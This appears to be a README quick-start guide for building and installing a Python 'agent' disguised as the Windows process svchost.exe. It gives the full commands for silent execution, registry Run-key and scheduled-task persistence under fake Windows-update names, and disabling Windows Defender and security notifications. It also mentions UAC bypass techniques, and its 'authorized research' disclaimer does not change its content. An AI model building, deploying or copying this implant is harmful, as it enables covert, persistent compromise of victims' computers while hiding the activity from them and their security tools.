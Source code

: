 # Quick Start Guide - svchost.exe

## Summary of All Features

### 1. ✅ Silent Execution (No Console Window)
- Configured in `svchost.spec`: `console=False`
- No popup windows when running

### 2. ✅ No UAC Prompts on Startup
- Fixed persistence mechanisms to use normal user privileges
- Registry: Uses `HKEY_CURRENT_USER` (no admin)
- Scheduled Tasks: Uses `/RL LIMITED` (no admin)

### 3. ✅ Automatic Notification Disable
- **NEW FEATURE**: Disables all Windows notifications on first run
- Executes BEFORE any other initialization
- Covers 7 types of notifications

## Build Instructions

```powershell
# 1. Install dependencies (if not already installed)
pip install -r requirements-client.txt pyinstaller

# 2. Build the executable
pyinstaller svchost.spec --clean --noconfirm

# 3. Your executable is ready
# Location: dist\svchost.exe
```

## First Time Setup

### Step 1: Clean Up Old Entries (If Any)
```powershell
# Remove old persistence entries
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "svchost32" /f
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsSecurityUpdate" /f
schtasks /delete /tn "WindowsSecurityUpdate" /f
schtasks /delete /tn "WindowsSecurityUpdateTask" /f
```

### Step 2: Run Once with Admin
```powershell
# Right-click dist\svchost.exe → "Run as administrator"
# This sets up persistence and disables notifications
```

### Step 3: Restart and Verify
```powershell
# Restart your computer
# The program should:
# - Start automatically
# - Show NO UAC prompt
# - Show NO notifications
# - Run silently (no console window)
```

## Verification Commands

### Check if executable is running:
```powershell
tasklist | findstr svchost.exe
```

### Check persistence entries:
```powershell
# Check registry
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "svchost32"

# Check scheduled task
schtasks /query /tn "WindowsSecurityUpdateTask" /fo list /v
```

### Check notification settings:
```powershell
# Check if notifications are disabled
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\PushNotifications" /v ToastEnabled
reg query "HKCU\SOFTWARE\Policies\Microsoft\Windows\Explorer" /v DisableNotificationCenter
```

## What Happens on First Run

```
1. [STARTUP] Disabling Windows notifications...
   └─ Disables Action Center
   └─ Disables Notification Center
   └─ Disables Windows Defender notifications
   └─ Disables Toast notifications
   └─ Disables Windows Update notifications
   └─ Disables Security notifications

2. Initialize stealth mode

3. Set up persistence (registry + scheduled task)
   └─ Uses normal user privileges (no UAC)
   └─ Silent execution (no console)

4. Start agent operations
```

## Expected Behavior

### ✅ CORRECT Behavior:
- Starts automatically after reboot
- No UAC prompt
- No console window
- No notifications
- Runs silently in background

### ❌ INCORRECT Behavior (Old Version):
- UAC prompt on every startup ← **FIXED**
- Notifications popup ← **FIXED**
- Console window appears ← **FIXED**

## Troubleshooting

### Problem: UAC prompt still appears
**Solution:**
```powershell
# Check scheduled task run level
schtasks /query /tn "WindowsSecurityUpdateTask" /fo list /v | findstr "Run Level"
# Should show: "Run Level: Limited"

# If it shows "Highest", delete and rebuild:
schtasks /delete /tn "WindowsSecurityUpdateTask" /f
# Then run svchost.exe again with admin once
```

### Problem: Notifications still appear
**Solution:**
```powershell
# Manually disable notifications
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\PushNotifications" /v ToastEnabled /t REG_DWORD /d 0 /f
reg add "HKCU\SOFTWARE\Policies\Microsoft\Windows\Explorer" /v DisableNotificationCenter /t REG_DWORD /d 1 /f

# Then restart explorer.exe
taskkill /f /im explorer.exe
start explorer.exe
```

### Problem: Console window appears
**Solution:**
```powershell
# Rebuild with correct spec file
pyinstaller svchost.spec --clean --noconfirm
# Make sure svchost.spec has: console=False
```

## File Locations

### Executable:
```
dist\svchost.exe
```

### Config Files:
```
svchost.spec           - PyInstaller configuration
client.py              - Source code
requirements-client.txt - Dependencies
```

### Documentation:
```
BUILD_INSTRUCTIONS.md           - How to build on Windows
UAC_FIX_SUMMARY.md             - UAC prompt fix details
NOTIFICATION_DISABLE_FEATURE.md - Notification disable details
QUICK_START.md                 - This file
```

## Testing Checklist

- [ ] Built executable with PyInstaller
- [ ] Cleaned up old persistence entries
- [ ] Ran once with admin privileges
- [ ] Restarted computer
- [ ] Verified no UAC prompt on startup
- [ ] Verified no console window appears
- [ ] Verified no notifications appear
- [ ] Verified executable is running (tasklist)
- [ ] Verified persistence entries exist (registry/task)

## Advanced: Manual Persistence Setup

If automatic setup fails, you can manually create persistence:

### Registry Method:
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "svchost32" /t REG_SZ /d "C:\Path\To\svchost.exe" /f
```

### Scheduled Task Method:
```powershell
schtasks /create /tn "SystemUpdate" /tr "C:\Path\To\svchost.exe" /sc onlogon /rl limited /f
```

## Support

For issues or questions:
1. Check the detailed documentation files
2. Review the log output (if DEBUG_MODE enabled in client.py)
3. Verify all prerequisite steps completed

## Security Notice

⚠️ **For Authorized Research Only**
- This tool is for security research on systems you own
- Test only in authorized environments
- Contains UAC bypass techniques for research purposes
- Use responsibly and ethically
